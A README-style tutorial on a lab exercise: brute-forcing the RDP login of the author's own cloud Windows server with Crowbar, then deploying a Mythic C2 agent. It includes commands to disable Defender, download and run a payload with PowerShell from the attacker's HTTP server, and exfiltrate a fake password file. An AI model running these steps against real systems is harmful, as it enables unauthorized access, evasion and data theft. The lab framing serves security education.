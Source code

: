 # Day-21-Simulating-a-Brute-Force-Attack-with-Mythic-C2

In today’s guide, we will dive into an exciting exercise where we perform a brute force attack on a Windows server and generate our own Mythic agent to establish a Command and Control (C2) session. For this demonstration, we’ll use **Kali Linux**, **Mythic C2**, and a **Windows Server** hosted on Vultr’s cloud platform. By the end, you’ll have a complete walkthrough of the attack phases—from brute-forcing a password to executing payloads on a compromised Windows machine.

## Attack Phases

The guide is divided into six attack phases:

1. **Initial Access**
2. **Discovery**
3. **Defense Evasion**
4. **Execution**
5. **Command & Control**
6. **Exfiltration**

> **Disclaimer**: This tutorial is for educational purposes only. Do NOT attempt this on any system you don’t have permission to access. Engaging in unauthorized hacking activities can lead to legal consequences.

---

## Setting Up for the Attack

Before jumping into the action, let’s set up our environment. I’m using **Vultr** to host a Windows server, but you can use any cloud platform.

### Step 1: Create a Fake File on Windows Server

1. Log in to your Vultr account and open the Windows Server console.
2. Create a file called `passwords.txt` on the server’s desktop.
3. Write a fake password (e.g., `SuperSecret123!`) to simulate sensitive information.
4. Change the server password via Group Policy, reducing the minimum password character limit to 5, and update your password.

---

## Attack Walkthrough

### Phase 1: Initial Access — Brute Force Attack Using Kali Linux

#### Step 1: Setting Up the Target — Fake Password File

1. Log in to your Windows Server and create a file called `passwords.txt` on the desktop.
2. Write a fake password (e.g., `SuperSecret123!`).
3. Update the server’s password by allowing shorter passwords (minimum 5 characters).

#### Step 2: Prepare a Custom Wordlist in Kali Linux

1. Navigate to the wordlist directory:
    ```bash
    cd /usr/share/wordlists
    ```
2. Use the first 50 lines of the `rockyou.txt` wordlist to create a smaller list:
    ```bash
    head -50 rockyou.txt > /home/kali/aurora-wordlist.txt
    ```
3. Edit the wordlist and insert the real password for proof of concept:
    ```bash
    nano /home/kali/aurora-wordlist.txt
    ```

#### Step 3: Brute Force the Windows RDP Login

1. Install Crowbar, a brute-force tool for RDP:
    ```bash
    sudo apt-get install -y crowbar
    ```
2. Run Crowbar to brute force the RDP login:
    ```bash
    crowbar -b rdp -u Administrator -C /home/kali/brute.txt -s [Windows-Server-IP]/32
    ```

### Phase 2: Discovery — Gathering Information on the Compromised Server

1. RDP into the Windows Server using `xfreerdp`:
    ```bash
    xfreerdp /u:Administrator /p:[Brute-Forced-Password] /v:[Windows-Server-IP]:3389
    ```
2. Execute basic discovery commands:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```

### Phase 3: Defense Evasion — Disabling Windows Defender

1. Open Windows Security and go to **Virus & Threat Protection**.
2. Turn off **Real-time protection**.

### Phase 4: Execution — Deploying the Mythic C2 Agent

#### Step 1: Install the Apollo Agent in Mythic

1. Install the Apollo agent:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicAgents/Apollo.git
    ```

#### Step 2: Install the HTTP C2 Profile

1. Install the HTTP C2 Profile:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicC2Profiles/http
    ```

#### Step 3: Generate the Payload

1. In Mythic’s GUI, generate a new payload for Windows using the HTTP C2 profile.

#### Step 4: Download the Payload via SSH

1. Download the payload with `wget`:
    ```bash
    wget [payload-url] --no-check-certificate
    ```

#### Step 5: Host the Payload on an HTTP Server

1. Serve the payload using Python HTTP server:
    ```bash
    python3 -m http.server 9999
    ```
2. Allow traffic through the firewall:
    ```bash
    sudo ufw allow 9999
    ```

#### Step 6: Download and Execute the Payload on Windows Server

1. Download the payload using PowerShell:
    ```powershell
    Invoke-WebRequest -Uri http://[Mythic-Server-IP]:9999/svchost-aurorarocks.exe -Outfile "C:\Users\Public\downloads\svchost-aurorarocks.exe"
    ```

2. Execute the payload:
    ```powershell
    .\svchost-aurorarocks.exe
    ```

### Phase 5: Command & Control — Establishing a C2 Session

1. Confirm the callback in Mythic’s GUI.
2. Interact with the compromised server using Mythic.

### Phase 6: Exfiltration — Stealing the Fake Password File

1. Download the fake file using Mythic:
    ```bash
    download C:\Users\Administrator\Documents\passwords.txt
    ```

---

## Conclusion: Power and Responsibility

While this attack scenario demonstrates the power of tools like Mythic C2, remember to use this knowledge ethically and responsibly. Always have explicit permission before testing any system.

In the next blog, we’ll focus on defensive measures to detect and monitor Mythic C2 activities. Stay tuned!

---

### Safety Disclaimer

This guide is designed for educational purposes. Unauthorized access to computer systems is illegal and unethical. Use these skills to secure systems, not exploit them.

